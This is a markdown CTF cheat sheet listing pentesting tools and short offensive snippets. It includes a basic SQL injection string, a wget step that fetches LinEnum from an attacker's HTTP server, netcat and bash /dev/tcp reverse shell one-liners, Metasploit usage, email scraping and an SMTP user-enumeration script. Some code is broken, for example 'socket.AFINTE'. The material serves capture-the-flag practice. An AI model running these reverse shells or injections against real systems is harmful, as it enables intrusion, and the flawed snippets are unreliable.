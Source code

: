 # CTF Reference

### Native tools
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)
- [Stegsolve](https://github.com/zardus/ctf-tools/tree/master/stegsolve)

### Online tools
- [Crypto Chef](https://gchq.github.io/CyberChef/)
 

### Sudo basic escalation
```
sudo -l
sudo -u theuser <app>
```

### Basic SQL injection
```
' OR name='test';--
```

### Quick Python HTTP server
Will serve any file in directory
```shell
python -m SimpleHTTPServer 8000
```
To fetch from the remote machine
```shell
wget http://<ip>:8000/LinEnum.sh
```

### nc reverse shell
Listener
```
nc -nlvp 444
```
Client
```
/bin/sh | nc <ip> 444
# or
bash -c "bash -i >& /dev/tcp/127.0.0.1/444 0>&1"
```
### nmap
```shell
nmap -sC -A -T4 <ip>
```

### Metasploit basic usage
```shell
msfconsole
search <name>
use <id>
show options
set rhosts <ip>
set targeturi /cgi-bin/hello.cgi
run
```

### Basic banner grabbing (Python)
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.198.73.23", 23))

print s.recv(1024)
```

### Recursive wget 
```shell
wget -r --level=1 -p http://<website> 
find . -name "*" -exec cat {} \; | grep "@email.com" # find strings in downloaded sites
```

### Basic SMTP enum (Python)

```python
import socket
f = open("userlist", "r")
users = f.readlines()

for user in users:
    s = socket.socket(socket.AFINTE)

    s.connect(("mail.baldrinc.com", 25))
    s.recv(1024)
    s.send("HELO")
    #...
    
# 546d467562334a356558493d
```
